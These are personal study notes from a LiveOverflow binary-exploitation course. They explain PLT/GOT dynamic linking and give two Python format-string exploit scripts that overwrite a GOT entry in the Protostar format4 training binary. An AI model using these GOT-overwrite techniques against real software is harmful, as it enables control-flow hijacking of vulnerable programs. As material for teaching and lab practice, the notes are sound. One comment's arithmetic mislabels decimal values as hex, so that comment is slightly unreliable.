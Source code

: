 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x12 PLT and GOT

When a C program using system functions or lib c functions such as printf, the code of these functions are not found within the C program or compiled executable. Instead, these functions will be dynamically linked to the program (use `ldd BINARY` to see all libraries dynamically linked to a binary as well as the path to the library)

This is beneficial as it reduces the size of our C program while lib c itself can receive updates without having all binaries using lib c to recompile on every update.

On modern OS, the address of the lib c library is randomised via ASLR (on Protostar VM, ASLR is not used so every run of `ldd BINARY` results in the same base memory address of dynamically linked libraries)

To allow programs to correctly reference lib c functions even with ASLR, we use Process Linkage Tables (PLTs) and Global Offset Tables (GOTs)

C program &rarr; Assembly Code &rarr; PLT &rarr; GOT &rarr; Location of function in linked library

Vulnerabilities

1. Arbitrary Write - write to GOT such that instead of executing library functions, we execute our own functions

2. Arbitrary Read - even with ASLR, the addresses in GOT is always fixed. Reading entries in GOT allows you to read addresses in lib c which can give you offset values to get the addresses of other functions in lib c. Useful for finding ROPGadgets, Ret2libc, and BoFs.

### 0x13 Format4

Answer 1: `python exploiy.py | /opt/protostar/bin/format4`

```
import struct

redirect = struct.pack("I", 0x80484b4) #address to hello() which we want redirect to
overwrite = struct.pack("I", 0x8049724) #address in GOT  we want to overwrite

exploit = ""
exploit += overwrite
exploit += "%134513840x"
exploit += "%4$n"

print exploit
```

Answer 2: `python exploiy.py | /opt/protostar/bin/format4`

```
import struct

redirect = struct.pack("I", 0x80484b4) #address to hello() which we want redirect to
overwrite = struct.pack("I", 0x8049724) #address in GOT we want to overwrite
overwrite2 = struct.pack("I", 0x8049724+2)

exploit = ""
exploit += overwrite
exploit += overwrite2

exploit += "%33964x%4$n"
exploit += "%33616x%5$n"

# 0x00080008 -> without vals
# 0x84b4 - 0x0008 = 0x33964
# 0x84b484b4 -> after using 0x33964 before %4$n
# 0x10804 - 0x84b4 = 0x33616


print exploit
```

### SSH problem fix (no matching host key type found)

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XX
